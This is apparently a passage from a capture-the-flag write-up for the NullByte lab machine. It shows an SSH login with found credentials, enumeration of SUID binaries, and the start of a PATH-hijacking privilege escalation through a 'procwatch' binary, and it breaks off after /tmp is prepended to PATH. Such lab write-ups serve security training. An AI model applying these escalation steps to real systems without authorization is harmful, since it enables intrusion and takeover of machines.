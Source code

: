 
## TCP/777 - SSH
1. SSH w/ ramses:omega
	![](images/Pasted%20image%2020220203213517.png)


# Privilege Escalation
## Root - Via SUID Binary (Path Hijacking)
1. Enumerate SUID Binaries
	```
	ramses@NullByte:~$ find / -perm -4000 2>/dev/null 
	/usr/lib/openssh/ssh-keysign
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/pt_chown
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/bin/procmail
	/usr/bin/at
	/usr/bin/chfn
	/usr/bin/newgrp
	/usr/bin/chsh
	/usr/bin/gpasswd
	/usr/bin/pkexec
	/usr/bin/passwd
	/usr/bin/sudo
	/usr/sbin/exim4
	/var/www/backup/procwatch <- Suspicious
	```
2. Execute `/var/www/backup/procwatch`, to see what it does
	```
	ramses@NullByte:~$ /var/www/backup/procwatch
	  PID TTY          TIME CMD
	 3311 pts/0    00:00:00 procwatch
	 3312 pts/0    00:00:00 sh
	 3313 pts/0    00:00:00 ps
	ramses@NullByte:~$ 
	```
	- Based on this, i think `ps` is being executed
3. View contents of `/var/www/backup/procwatch`
	```
	ramses@NullByte:~$ strings /var/www/backup/procwatch | grep ps
	```
	- Strings did not reveal, `ps` being called
4. Assumes it calls `ps` w/o specifying its full path
5. Exploit via Path Hijacking
	1. Prepend `/tmp` to ramses `Path` environment variable
		```
		ramses@NullByte:~$ export PATH=/tmp:$PATH
		ramses@NullByte:~$ echo $PATH
		/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
		ramses@NullByte:~$ 